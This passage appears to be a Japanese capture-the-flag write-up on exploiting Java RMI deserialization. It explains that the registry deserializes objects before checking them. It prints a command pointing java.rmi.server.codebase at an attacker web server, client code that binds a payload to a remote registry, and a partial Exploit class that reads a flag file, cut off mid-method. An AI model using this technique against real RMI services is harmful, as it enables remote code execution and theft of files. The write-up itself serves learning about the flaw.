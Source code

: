 ```java
myIntList.add(1);
myIntList.add(2);
myIntList.add(3);
System.out.println(averageService.average(myIntList)); // prints "2.0"
```
どうやらRMIはRMI Registryにあるクラスを取得した後に一度シリアライズするらしく、それをまたデシリアライズしてからチェックするらしい。つまり、チェックする前にデシリアライズしてしまう！  
したがって、`Serializerable`インターフェースを実装した`Exploit`クラスを作成してそこに任意の処理を書いた`readObject`を定義しておけば、Exploitクラスをデシリアライズするときにそっちの`readObject`でデシリアライズするようになって任意の処理を実行できる！  
  
- **payload**  
以下のコマンドを攻撃者側で実行してコンパイル済みのMain.classを実行すればいいっぽい？  
このように`-D`で指定すると、この設定がRMI Registryに反映されるっぽい？？  
```txt
java -Djava.rmi.server.codebase=http://attacker.webserver/folder Main
```
RMI Registryを見つけて接続してExploitクラスのインスタンスをRegistryに登録する。  
```java
public static void main(String args[]) {

  AverageService service = null;
  Registry reg1 = null;
  Remote p = new Payload();

  String host = args[0];
  int port = Integer.parseInt(args[1]);

  System.out.println("Searching registry at "+host+":"+port);

  try {
      reg1 = LocateRegistry.getRegistry(host,port);
  } catch (RemoteException e) {
      System.out.println("No registry   found!\nAborting...");
      e.printStackTrace();
      return;
  } finally {
      System.out.println("Registry found!");
  }

  System.out.println("Starting exploit...");
  try {
      reg1.bind("new service", p);
  } catch (RemoteException | AlreadyBoundException e) {
      System.out.println(e.getMessage());
  }
}
```
デシリアライズ時に`readObject`によって`explot()`が実行される。  
なんか例外を発生させてその例外の中でFlagを表示してるっぽい？  
```java
public class Exploit implements Remote, Serializable {
  public void exploit() throws IOException {
      /*
       Cat flag is not java enough
      */
      BufferedReader br = new BufferedReader(new FileReader("flag"));
      try {
          StringBuilder sb = new StringBuilder();
          String line = br.readLine();

          while (line != null) {
              sb.append(line);
              sb.append(System.lineSeparator());
              line = br.readLine();
          }
```